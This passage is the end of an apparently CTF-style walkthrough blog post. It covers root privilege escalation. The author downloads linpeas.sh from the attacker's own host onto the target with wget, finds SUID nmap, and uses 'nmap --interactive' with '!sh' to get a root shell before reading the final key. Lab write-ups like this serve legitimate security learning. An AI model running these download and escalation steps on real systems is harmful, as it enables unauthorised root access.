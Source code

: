 Download files (Do that on the **target** machine):

```bash
cd /dev/shm/
wget "$YOURIP:8000/linpeas.sh"
```

(\$YOURIP is your tun0 ip that shows up if you run ifconfig)

Now mark linpeas.sh as an executable

```bash
chmod +x linpeas.sh
```

And run and save it

```bash
./linpeas.sh | tee linout.txt
```

As usual, linpeas found a shitload of things but something that stood out to me was the “nmap” entry in the SUID section.

A quick search on [GTFOBins](https://gtfobins.github.io/) shows us that a root shell is just a few lines of code away.

{% asset_img gtfobins.png %}

I used the second option, so spawn an interactive nmap shell and get a root shell.

```plain
nmap --interactive
nmap> !sh
```

And there you go, you have a root shell! I didn’t stabilize it this time, just because we don’t work in it very long.

### Flag 3

Now we can have a look inside of the /root/ directory and we see the third key.

```plain
# whoami
root
# pwd
/root/
# cat key-3-of-3.txt
key3
```

## The End

And there you have it! I hope you had fun, I know I did 🦄
